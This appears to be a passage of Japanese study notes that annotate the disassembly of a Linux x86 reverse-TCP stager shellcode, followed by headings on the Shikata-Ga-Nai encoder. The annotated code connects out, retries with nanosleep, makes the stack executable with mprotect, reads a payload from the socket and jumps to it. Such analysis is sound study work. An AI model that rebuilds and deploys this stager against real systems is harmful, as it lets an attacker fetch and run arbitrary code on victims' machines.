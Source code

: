```
  |0x08048153:	mov    ecx,esp
  |0x08048155:	inc    ebx
  |0x08048156:	int    0x80                                     ;systemcall 0x66 connect()
  |0x08048158:	test   eax,eax
+--0x0804815a:	jns    0x8048175
| |0x0804815c:	dec    esi
|+-0x0804815d:	je     0x804819c
|||0x0804815f:	push   0xa2
|||0x08048164:	pop    eax
|||0x08048165:	push   0x0
|||0x08048167:	push   0x5
|||0x08048169:	mov    ebx,esp
|||0x0804816b:	xor    ecx,ecx
|||0x0804816d:	int    0x80                                     ; systemcall 0xa2 (nanosleep)
|||0x0804816f:	test   eax,eax
||+0x08048171:	jns    0x8048130
|+-0x08048173:	jmp    0x804819c
+->0x08048175:	mov    dl,0x7
 | 0x08048177:	mov    ecx,0x1000
 | 0x0804817c:	mov    ebx,esp
 | 0x0804817e:	shr    ebx,0xc
 | 0x08048181:	shl    ebx,0xc
 | 0x08048184:	mov    al,0x7d
 | 0x08048186:	int    0x80                                     ; systemcall 0x7d (mprotect)
 | 0x08048188:	test   eax,eax
 | 0x0804818a:	js     0x804819c
 | 0x0804818c:	pop    ebx
 | 0x0804818d:	mov    ecx,esp
 | 0x0804818f:	cdq    
 | 0x08048190:	mov    dl,0x6a
 | 0x08048192:	mov    al,0x3
 | 0x08048194:	int    0x80                                     ; systemcall 0x3 (read)
 | 0x08048196:	test   eax,eax
 | 0x08048198:	js     0x804819c
 | 0x0804819a:	jmp    ecx
 +-0x0804819c:	mov    eax,0x1
   0x080481a1:	mov    ebx,0x1
   0x080481a6:	int    0x80                                     ; systemcall 0x1 (exit)
   0x080481a8:	xor    ebx,ebx
   0x080481aa:	push   0x1
   0x080481ac:	pop    eax
   0x080481ad:	int    0x80                                     ; systemcall 0x1 (exit)
```
- ```#socketcall```ソケット関数で使う引数はスタックに積まれる。（っぽい）
## その他のアイディア
```Shikata-Ga-Nai```エンコーダの背景知識
### FPU命令
